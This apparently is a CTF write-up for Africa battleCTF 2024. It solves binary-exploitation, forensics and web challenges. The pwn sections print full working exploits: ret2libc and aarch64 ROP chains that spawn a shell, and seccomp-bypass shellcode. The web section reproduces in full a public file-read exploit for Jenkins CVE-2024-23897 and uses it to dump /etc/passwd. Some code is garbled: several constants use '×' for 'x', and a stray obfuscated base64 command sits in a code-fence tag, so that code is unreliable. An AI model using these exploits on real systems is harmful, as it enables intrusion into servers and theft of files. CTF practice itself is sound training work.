

## Pwn

### Poj

NX and pie are enabled

```bash
checksec poj 
[*] '/home/plaintext/Downloads/ctf/poj/poj'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./'
```

Decompiling with ghidra we get this function that prints the address of `write` and calls `FUN_0010115c`

```c
void FUN_0010117d(void)

{
  write(1,"Africa battle CTF 2024\n",0x17);
  printf("Write() address : %p\n",write);
  FUN_0010115c();
  return;
}
```

`read` gets `0x100` into `64` buffer which is `0x48` from the return address.

```c
void FUN_0010115c(void)

{
  undefined local_48 [64];
  
  read(0,local_48,0x100);
  return;
}
```

The offset is `72`. we extract `write` to calculate libc base. find `system` , `puts` and `/bin/sh`. finally build a rop chain to spawn shell using ret2libc.

```python
from pwn import *
import re
context.update(arch="amd64",os="linux")

filename = './poj'
libc=ELF("./libc.so.6")
e = elf = ELF(filename)

target=remote("challenge.bugpwn.com",1003)

offset=72

target.recv()
banner=target.recv()
write_addr=re.findall(b'0x[a-f0-9]{0,12}',banner)[0]
write_addr=(int(write_addr,0))

libc.address=write_addr - libc.symbols['write']
system=libc.symbols['system']
puts=libc.symbols['puts']
exit_fn=libc.symbols['exit']
shell=next(libc.search(b'/bin/sh\x00'))
pop_rdi=libc.address + 0x0000000000028215

rop=b""
rop+=p64(pop_rdi)
rop+=p64(shell)
rop+=p64(puts)
rop+=p64(pop_rdi)
rop+=p64(shell)
rop+=p64(system)
payload=b"A" * offset + rop
target.sendline(payload)
target.interactive()
```

Running the code we get the flag

```bash
plaintext@archlinux ~/D/c/poj (2)> python sol.py
[*] '/home/plaintext/Downloads/ctf/poj (2)/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
[*] '/home/plaintext/Downloads/ctf/poj (2)/poj'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./'
[+] Opening connection to challenge.bugpwn.com on port 1003: Done
[*] Switching to interactive mode
/bin/sh
$ ls
flag.txt
libc.so.6
poj
$ cat flag.txt
battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd}
$ 
```

### Kami
We first patch the binary

```bash
patchelf kami --set-interpreter ./ld-linux-aarch64.so.1 --set-rpath "./" ka
```

No pie and no stack canary

```bash
checksec kami 
[*] '/home/plaintext/Downloads/kami/kami'
    Arch:       aarch64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3e0000)
    RUNPATH:    b'./'
    Stripped:   No
```

Decompiling with ghidra `fflush` address is leaked and another function kami is called

```c
undefined8 main(void)

{
  int iVar1;
  
  iVar1 = printf("fflush at %p\n",fflush);
  kami(iVar1);
  return 0;
}
```

Kami uses a dangerous function `gets` which can be used for buffer overflow 

```cecho 952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS | rev | base64 -d

/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

void kami(void)

{
  char acStack_80 [128];
  
  printf("Welcome to Africa battleCTF.!");
  fflush(_stdout);
  gets(acStack_80);
  return;
}
```

The offset is `136` . So we need to extract the leaked address of `fflush` , find the address of `system`, `/bin/sh` and `puts` and lastly the gadgets to call `system(/bin/sh)`.

Using ropper we get these two gadgets to use

```bash
0x0000000000027b38: ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
0x0000000000049620: mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
```

We then build the exploit

```python
from pwn import *
import re

filename = './patched'
libc=ELF("./libc.so.6")

target=remote("challenge.bugpwn.com",1000)

leak=target.recv()
fflush_leak = int(re.findall(b'0x[a-f0-9]+',leak)[0].decode(),0)
print(f"fflush address {hex(fflush_leak)}")

libc.address = fflush_leak - 0×00000000006b590 # 0×55008bad1a
system=libc.address +0×000000000049480
puts=libc.address +0×00000000006da70
exit=libc.address +0×00000000003c760
shell=next(libc.search(b'/bin/sh\x00'))

print(f"libc base address {hex(libc.address)}")
print(f"puts address {hex(puts)}")
print(f"shell address {hex(shell)}")
print(f"exit address {hex(exit)}")
print(f"system address {hex(system)}")

payload = b''
payload += 128 * b'A'
payload += 8 * b'B'
payload += p64(libc.address + 0×0000000000027b38) 
payload += (8 * 3) * b'C'
payload += p64(libc.address + 0×0000000000049620)
payload += p64(shell)
payload += (8 * 2) * b'D'
payload += p64(libc.sym.system)
target.sendline(payload)
target.interactive()
```

### Universe

Decompiling the binary we find this function `FUN_001012b3`. a mapped reagion is created with `mmap` and marked as `rwx`. it calls a function `FUN_00101208()` and get user input and stores it in the mapped region and executes it.

```bash

undefined8 FUN_001012b3(void)

{
  code *pcVar1;
  ssize_t sVar2;
  int local_c;
  
  local_c = 0;
  pcVar1 = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  puts("Africa battleCTF 2024");
  puts(
      "By its very subject, cosmology flirts with metaphysics. Because how can we study an object fr om which we cannot extract ourselves? Einstein had this audacity and the Universe once again b ecame an object of science. Without losing its philosophical dimension.\nWhat do you think of the universe?"
      );
  fflush(stdout);
  FUN_00101208();
  for (; local_c != 0x1000; local_c = local_c + (int)sVar2) {
    sVar2 = read(0,pcVar1 + local_c,(long)(0x1000 - local_c));
  }
  (*pcVar1)();
  return 0;
}
```

The function setups seccomp rules to limit syscalls 

```c

void FUN_00101208(void)

{
  DAT_00104078 = seccomp_init(0x7fff0000);
  if (DAT_00104078 == 0) {
    seccomp_reset(0,0x7fff0000);
                    /* WARNING: Subroutine does not return */
    _exit(-1);
  }
  seccomp_arch_add(DAT_00104078,0xc000003e);
  FUN_001011c9(2);
  FUN_001011c9(0x38);
  FUN_001011c9(0x39);
  FUN_001011c9(0x3a);
  FUN_001011c9(0x3b);
  FUN_001011c9(0x55);
  FUN_001011c9(0x142);
  seccomp_load(DAT_00104078);
  return;
}
```

using seccomp-tools we find the following syscalls are restricted

```bash
open,clone,fork,vfork,execve,creat,execveat
```

To bypass the checks we use `openat` and `sendfile`.

```python
from pwn import *

context.update(arch="amd64",os="linux")
filename = './universe'
e = elf = ELF(filename)

target=remote("challenge.bugpwn.com",1004)

target.recvuntil(b'What do you think of the universe?\n')
shellcode = shellcraft.openat(-100, "/flag.txt",0)
shellcode += shellcraft.sendfile(1, 3, 0×0, 4000)
shellcode=asm(shellcode)
payload=shellcode + b'\x00' * (0×1000-len(shellcode))

for i in range(0×1000):
  target.send(chr(payload[i]))
target.interactive()
```

## Forensics

### Do(ro X2 )

Using FTK Imager we use the provided password and we get the flag at `C:\\Users\\Desktop\\Delano\\Documents\\Image`
> Analyze the file. Extensive manipulation is required to uncover what’s hidden within.

### Symphony

We are given a file `Note.txt` .Opening the file we get hex code with this first line that appears to have some hex values stripped

```bash
52 49 ❌❌ 6c 26 05 00 10 00 00 00 01 00 01 00 40 1f 00 00 40 1f 00 00 01 00 08 00 64 61 74 61 48 26 05 00 80 83 91 ab cb e3
```

The first two hex code values match with the magic bytes of RIFF.

```bash
52 49 46 46
```

but a RIFF file has a header section that is `52 49 46 46` then the file size in little-endian format that is `6C 26 05 00` then the format identifier `10 00 00 00`. Then we have data chunks that is `64 61 74 61` but no format chunk that was present to describe the audio encoding format and so we need to insert it manually before the data chunk. I assumed a PCM (Pulse-Code Modulation) format.

```bash
Offset 0x0C: 'fmt ' (66 6D 74 20)
Offset 0x10: Subchunk size (0x10 for PCM, meaning 16 bytes for the format chunk)
Offset 0x14: Audio format (0x01 for PCM)
Offset 0x16: Number of channels (0x01 for mono or 0x02 for stereo)
Offset 0x18: Sample rate (e.g., 0x1F40 = 8000 Hz)
Offset 0x1C: Byte rate (SampleRate * NumChannels * BitsPerSample/8)
Offset 0x20: Block align (NumChannels * BitsPerSample/8)
Offset 0x22: Bits per sample (e.g., 8 or 16)
```

Next we need to change the file to match the above pattern

```bash
52 49 46 46 6C 26 05 00 57 41 56 45   ; "RIFF" + file size + "WAVE"
66 6D 74 20 10 00 00 00 01 00 01 00   ; 'fmt ' chunk + size + audio format
40 1F 00 00 80 3E 00 00 01 00 08 00   ; Sample rate + byte rate + block align + bits/sample
64 61 74 61 48 26 05 00               ; 'data' chunk identifier + data size
```

From this

```bash
52 49 46 46 6C 26 05 00 10 00 00 00 01 00 01 00 40 1F 00 00 40 1F 00 00 01 00 08 00 64 61 74 61
```

To this 

```bash
52 49 46 46 6C 26 05 00 57 41 56 45 66 6D 74 20 10 00 00 00 01 00 01 00 40 1F 00 00 80 3E 00 00 01 00 08 00 64 61 74 61
```

Then create a python script to convert the hexcode to a binary file with the extension .wav

```python
def hex_to_wav(input_file, output_file):
    try:
        with open(input_file, 'r') as file:
            hex_data = file.read().replace(' ', '').replace('\n', '')
        
        binary_data = bytes.fromhex(hex_data)
        
        with open(output_file, 'wb') as wav_file:
            wav_file.write(binary_data)
        
        print(f"Successfully created WAV file: {output_file}")
    except Exception as e:
        print(f"Error: {e}")

input_file = 'note.txt'
output_file = 'output.wav'
hex_to_wav(input_file, output_file)
```

Opening the file it sounded like a morse code. https://morsecode.world/international/decoder/audio-decoder-adaptive.html 


The websites gave slightly different output and i had to combine both to try and get the correct flag https://databorder.com/transfer/morse-sound-receiver/


## Web
### Jenkins

After opening the challenge We get a login page for jenkins. 



Navigating to http://web.challenge.bugpwn.com:8080/user/admin/ we find the version of jenkins 2.441


Checking for public cve. Found CVE-2024-23897 https://www.exploit-db.com/exploits/51993

```python
# Exploit Title: Jenkins 2.441 - Local File Inclusion
# Date: 14/04/2024
# Exploit Author: Matisse Beckandt (Backendt)
# Vendor Homepage: https://www.jenkins.io/
# Software Link: https://github.com/jenkinsci/jenkins/archive/refs/tags/jenkins-2.441.zip
# Version: 2.441
# Tested on: Debian 12 (Bookworm)
# CVE: CVE-2024-23897

from argparse import ArgumentParser
from requests import Session, post, exceptions
from threading import Thread
from uuid import uuid4
from time import sleep
from re import findall

class Exploit(Thread):
  def __init__(self, url: str, identifier: str):
    Thread.__init__(self)
    self.daemon = True
    self.url = url
    self.params = {"remoting": "false"}
    self.identifier = identifier
    self.stop_thread = False
    self.listen = False

  def run(self):
    while not self.stop_thread:
      if self.listen:
        self.listen_and_print()

  def stop(self):
    self.stop_thread = True

  def receive_next_message(self):
    self.listen = True

  def wait_for_message(self):
    while self.listen:
      sleep(0.5)

  def print_formatted_output(self, output: str):
    if "ERROR: No such file" in output:
      print("File not found.")
    elif "ERROR: Failed to parse" in output:
      print("Could not read file.")

    expression = "No such agent \"(.*)\" exists."
    results = findall(expression, output)
    print("\n".join(results))

  def listen_and_print(self):
    session = Session()
    headers = {"Side": "download", "Session": self.identifier}
    try:
      response = session.post(self.url, params=self.params, headers=headers)
    except (exceptions.ConnectTimeout, exceptions.ConnectionError):
      print("Could not connect to target to setup the listener.")
      exit(1)

    self.print_formatted_output(response.text)
    self.listen = False

  def send_file_request(self, filepath: str):
    headers = {"Side": "upload", "Session": self.identifier}
    payload = get_payload(filepath)
    try:
      post(self.url, data=payload, params=self.params, headers=headers, timeout=4)
    except (exceptions.ConnectTimeout, exceptions.ConnectionError):
      print("Could not connect to the target to send the request.")
      exit(1)

  def read_file(self, filepath: str):
    self.receive_next_message()
    sleep(0.1)
    self.send_file_request(filepath)
    self.wait_for_message()

def get_payload_message(operation_index: int, text: str) -> bytes:
  text_bytes = bytes(text, "utf-8")
  text_size = len(text_bytes)
  text_message = text_size.to_bytes(2) + text_bytes
  message_size = len(text_message)

  payload = message_size.to_bytes(4) + operation_index.to_bytes(1) + text_message
  return payload

def get_payload(filepath: str) -> bytes:
  arg_operation = 0
  start_operation = 3

  command = get_payload_message(arg_operation, "connect-node")
  poisoned_argument = get_payload_message(arg_operation, f"@{filepath}")

  payload = command + poisoned_argument + start_operation.to_bytes(1)
  return payload

def start_interactive_file_read(exploit: Exploit):
  print("Press Ctrl+C to exit")
  while True:
    filepath = input("File to download:\n> ")
    filepath = make_path_absolute(filepath)
    exploit.receive_next_message()

    try:
      exploit.read_file(filepath)
    except exceptions.ReadTimeout:
      print("Payload request timed out.")

def make_path_absolute(filepath: str) -> str:
    if not filepath.startswith('/'):
      return f"/proc/self/cwd/{filepath}"
    return filepath

def format_target_url(url: str) -> str:
  if url.endswith('/'):
    url = url[:-1]
  return f"{url}/cli"

def get_arguments():
  parser = ArgumentParser(description="Local File Inclusion exploit for CVE-2024-23897")
  parser.add_argument("-u", "--url", required=True, help="The url of the vulnerable Jenkins service. Ex: http://helloworld.com/")
  parser.add_argument("-p", "--path", help="The absolute path of the file to download")
  return parser.parse_args()

def main():
  args = get_arguments()
  url = format_target_url(args.url)
  filepath = args.path
  identifier = str(uuid4())

  exploit = Exploit(url, identifier)
  exploit.start()

  if filepath:
    filepath = make_path_absolute(filepath)
    exploit.read_file(filepath)
    exploit.stop()
    return

  try:
    start_interactive_file_read(exploit)
  except KeyboardInterrupt:
    pass
  print("\nQuitting")
  exploit.stop()

if __name__ == "__main__":
  main()            
```

Reading `/etc/passwd` 

```bash
python cve.py -u http://web.challenge.bugpwn.com:8080 -p "/etc/passwd"
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

Next was to locate where the flag was. After a few struggles i found the location of the flag

```bash
python cve.py -u http://web.challenge.bugpwn.com:8080 -p "/etc/flag.txt"
battleCTF{I_Tr4vEl_T0_battleCTF_3bb8a0f488816fc377fc0cde93f2e0b1d4c1f9fda09dfaa4962d44d5a09f8fdb}
```